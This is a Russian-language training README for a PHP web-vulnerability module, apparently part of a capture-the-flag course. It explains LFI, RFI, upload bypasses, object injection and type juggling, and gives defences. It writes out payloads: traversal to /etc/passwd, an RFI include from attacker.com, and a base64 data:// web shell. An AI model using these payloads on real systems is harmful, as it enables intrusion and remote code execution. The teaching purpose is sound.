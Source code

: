 # Module 1: PHP Vulnerabilities

## Описание модуля

Этот модуль посвящен изучению уязвимостей в PHP веб-приложениях. Здесь вы научитесь находить и эксплуатировать наиболее распространенные уязвимости в PHP коде.

## Типы уязвимостей в этом модуле

### 1. Local File Inclusion (LFI)

**Что это?**
Local File Inclusion (LFI) - это уязвимость, которая позволяет атакующему включать локальные файлы на сервере через манипуляцию входными параметрами.

**Как возникает?**
```php
// Уязвимый код:
$page = $_GET['page'];
include($page . '.php');
```

**Как искать?**
1. Ищите параметры URL, которые включают файлы (page, file, include, path)
2. Попробуйте path traversal: `../../../etc/passwd`
3. Обратите внимание на PHP wrappers: `php://filter`, `php://input`
4. Попробуйте null byte injection (в старых версиях PHP): `file.txt%00`

**Защита:**
- Используйте whitelist разрешенных файлов
- Избегайте прямого использования пользовательского ввода в include/require
- Используйте `basename()` для удаления path traversal
- Отключите `allow_url_include` в php.ini

### 2. Remote File Inclusion (RFI)

**Что это?**
RFI позволяет включать удаленные файлы через HTTP/FTP протоколы.

**Как возникает?**
```php
// Уязвимый код с allow_url_include = On:
include($_GET['file']);
```

**Как искать?**
1. Проверьте, включен ли `allow_url_include`
2. Попробуйте подставить внешний URL: `?file=http://attacker.com/shell.txt`
3. Используйте PHP wrappers: `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=`

### 3. File Upload Vulnerabilities

**Что это?**
Уязвимость загрузки файлов позволяет загружать исполняемый код на сервер.

**Как возникает?**
- Недостаточная валидация типа файла
- Проверка только по MIME-type или расширению
- Возможность перезаписать .htaccess
- Отсутствие проверки содержимого файла

**Как искать?**
1. Попробуйте загрузить PHP shell с расширением `.php`
2. Попробуйте обойти проверку:
   - `.php.jpg`
   - `.php5`, `.phtml`, `.phar`
   - Двойное расширение: `shell.php.png`
   - Null byte: `shell.php%00.png`
3. Попробуйте изменить Content-Type в запросе
4. Проверьте, можно ли загрузить `.htaccess` для изменения обработки файлов
5. Используйте magic bytes (начало файла) для обхода проверки по содержимому

**Защита:**
- Проверяйте содержимое файла, а не только расширение
- Сохраняйте файлы вне webroot или в папке без прав выполнения
- Генерируйте случайные имена файлов
- Используйте whitelist допустимых расширений
- Проверяйте размер файла

### 4. PHP Object Injection

**Что это?**
Уязвимость при десериализации недоверенных данных в PHP.

**Как возникает?**
```php
// Уязвимый код:
$data = unserialize($_GET['data']);
```

**Как искать?**
1. Ищите использование `unserialize()` с пользовательским вводом
2. Изучите magic methods: `__wakeup()`, `__destruct()`, `__toString()`
3. Попробуйте создать payload с использованием существующих классов
4. Используйте инструменты типа PHPGGC для генерации gadget chains

### 5. PHP Type Juggling

**Что это?**
Слабая типизация PHP может приводить к неожиданным результатам сравнения.

**Примеры:**
```php
"0e123" == "0e456"  // true (оба интерпретируются как 0 * 10^123)
"0" == "anything"   // false
0 == "anything"     // true
true == "anything"  // true
```

**Как искать?**
1. Ищите использование `==` вместо `===`
2. Обратите внимание на сравнения хешей (MD5, SHA1)
3. Попробуйте подобрать строки, которые начинаются с `0e` и содержат только цифры

## Задания в модуле

### [Task 1: php_easy_include](./tasks/php_easy_include/)
Базовая задача на эксплуатацию LFI уязвимости.

### [Task 2: php_load_image](./tasks/php_load_image/)
Задача на обход фильтров при загрузке файлов.

### [Task 3: php_medium](./tasks/php_medium/)
Более сложная задача с комплексным PHP приложением.

## Полезные инструменты

- **Burp Suite** - для перехвата и модификации HTTP запросов
- **PHPGGC** - генератор gadget chains для PHP object injection
- **PHP Wrapper для LFI:**
  - `php://filter/convert.base64-encode/resource=file.php`
  - `php://input` (с POST данными)
  - `data://text/plain;base64,BASE64_PAYLOAD`
  - `expect://command` (если расширение expect установлено)
- **Wfuzz / ffuf** - для фаззинга параметров

## Полезные ресурсы

- [OWASP PHP Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/PHP_Configuration_Cheat_Sheet.html)
- [PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [PayloadsAllTheThings - File Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- [HackTricks - File Inclusion/Path Traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

## Практика

После изучения теории, переходите к выполнению заданий в папке `tasks/`. Начните с более простых и постепенно переходите к сложным.

Удачи! 🚀

